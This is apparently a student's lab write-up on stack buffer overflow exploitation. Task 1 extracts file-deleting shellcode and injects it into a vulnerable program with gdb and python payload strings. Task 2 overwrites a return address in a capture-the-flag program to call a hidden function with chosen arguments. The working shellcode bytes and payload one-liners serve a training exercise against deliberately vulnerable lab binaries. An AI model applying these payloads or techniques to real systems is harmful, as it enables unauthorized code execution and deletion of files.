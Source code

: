  22110042 Doan Minh Khanh
> ### Lab 2 
## Task 1
**Inject code to delete file: file_del.asm is given on github**

Create a file called dummy file
>![image](./IS_lab2/dummyfile.png)

 Firstly, accessing to the virtual machine by Docker
>![docker access](./IS_lab2/docker-acess.png)

> Go into the lab\seclabs\Security-labs\Software\buffer-overflow and then create a file_asm out by these 2 commands
![create_file](./IS_lab2/file-delout.png)

Then I will get the hexstring of file_del

 for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
>\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.
>
Remove \xdummyfile because it is not meaningful hexadecimal code       
> \xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

Stack Frame
>  ![image](./IS_lab2/stackeframe.png)

To execute the the file_del, it needs to overwrite the buffer

It is: 36 bytes shell code + 4 bytes return address + 32 bytes placement code = 72 bytes

Now we need to access gdb of vuln.out 
>  ![image](./IS_lab2/gdb-vulnout.png)

 break at 0x0804843e and 0x0804846b

 using r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

then we run the shell and look by command: x/80xb $esp

>Then, we will observe the first 3 bytes will respond the shellocde, but at the 4th byte because we have \x0a in the hexstring, the strcpy will make the interuption
>![image](./IS_lab2/strcpy.png)

Therefore, we need to change some character:
* 0x00: null
* 0x09: horizontal tab
* 0x0a: line feed
>![image](./IS_lab2/rootstarter.png)

 So we need to change the assembly code in file-del to this for replacing the \x0a in the line *"move eax,10"* 
> 
>![image](./IS_lab2/changestarter.png)

Get the shellcode again, we have:
>![image](./IS_lab2/afterchangecode.png)
 
 Now, we prevent the termination by the address 0xff and mark the return of the return frame
> 
 Also, we can see the address pf esp is \x68\xd6\xff\xff. So we need change the marked position to this position. So we change the command into:
>![image](./IS_lab2/setagain.png)

> r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\x68\xd6\xff\xff')")

> ![image](./IS_lab2/afterchangemarked.png)
 
 then we continue to set 0xffffd6d8b = 0x00 and change the bit from 0xffffd671 to 0xffffd674 to the address of the dummyfile
> ![image](./IS_lab2/dummyfile_addr.png)
 
  then we have final result
> ![image](./IS_lab2/set0x00.png)

 and the dummy_file is deleted by vuln.c
> ![image](./IS_lab2/dummyfile_deleted.png)

***
## Task 2
**Conduct attack on ctf.c** 

 The stack frame
> ![image](./IS_lab2/stackctf.png)

The *vuln* function accounts for the first 104 bytes
> ![image](./IS_lab2/code-ctf.png)
To overflow, we need to over the return address


Create the file ctf.out
> gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

Connect gdb and disas myfunc
> ![image](./IS_lab2/disasmyfunc.png)
> we have the *myfunc* adress: 0x0804851b, and p = 0x04081211 and q = 0x44644262 so we have the command
> we have 104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)
> 
> r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After running we met flag 1 is missing >> create flag1.txt
> ![image](./IS_lab2/flag1misssing.png)
> ![image](./IS_lab2/createdflag1.png)

But when running in gdb, it meet an infinite func
>![image](./IS_lab2/infinite.png)

So we need to find the exit address to replace the padding 
>![image](./IS_lab2/exitaddr.png)
> r $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08'+ '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")

 Run again and we have the expected outcome:
> ![image](./IS_lab2/overflow.png)




